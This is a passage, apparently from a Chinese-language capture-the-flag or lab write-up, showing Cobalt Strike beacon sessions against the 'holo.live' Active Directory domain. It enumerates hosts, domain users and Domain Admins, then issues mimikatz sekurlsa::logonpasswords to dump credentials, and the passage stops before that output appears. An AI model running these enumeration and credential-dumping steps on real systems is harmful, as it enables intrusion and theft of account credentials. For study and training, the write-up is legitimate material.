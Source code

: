 dnshostname           
-----------           
DC-SRV01.holo.live    
PC-FILESRV01.holo.live
S-SRV01.holo.live     
S-SRV02.holo.live   
```

获取所有域用户
```
beacon> run net users /domain
[*] Tasked beacon to run: net users /domain
[+] host called home, sent: 35 bytes
[+] received output:
The request will be processed at a domain controller for domain holo.live.


User accounts for \\DC-SRV01.holo.live

-------------------------------------------------------------------------------
ad-joiner                Administrator            a-fubukis                
a-koronei                ameliaw                  cocok                    
cryillic                 fubukis                  Guest                    
gurag                    koronei                  krbtgt                   
matsurin                 mikos                    okayun                   
PC-MGR                   spooks                   SRV-ADMIN                
watamet                  WEB-MGR                  

```


获取所有DA
```
beacon> powershell Get-DomainGroupMember -Identity "Domain Admins" | select MemberDistinguishedName
[*] Tasked beacon to run: Get-DomainGroupMember -Identity "Domain Admins" | select MemberDistinguishedName
[+] host called home, sent: 481 bytes
[+] received output:
#< CLIXML



MemberDistinguishedName                                           

-----------------------                                           

CN=Shirikami Fubuki,OU=Administration,OU=Employees,DC=holo,DC=live

CN=Inugami Korone,OU=Administration,OU=Employees,DC=holo,DC=live  

CN=SRV ADMIN,OU=Service Accounts,OU=Employees,DC=holo,DC=live     

CN=Administrator,CN=Users,DC=holo,DC=live  
```

DA成员包括：Shirikami Fubuki,Inugami Korone,SRV ADMIN,Administrator


使用mimikatz dump出机器里的登录密码
```
beacon> mimikatz sekurlsa::logonpasswords
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 750714 bytes
[+] received output:
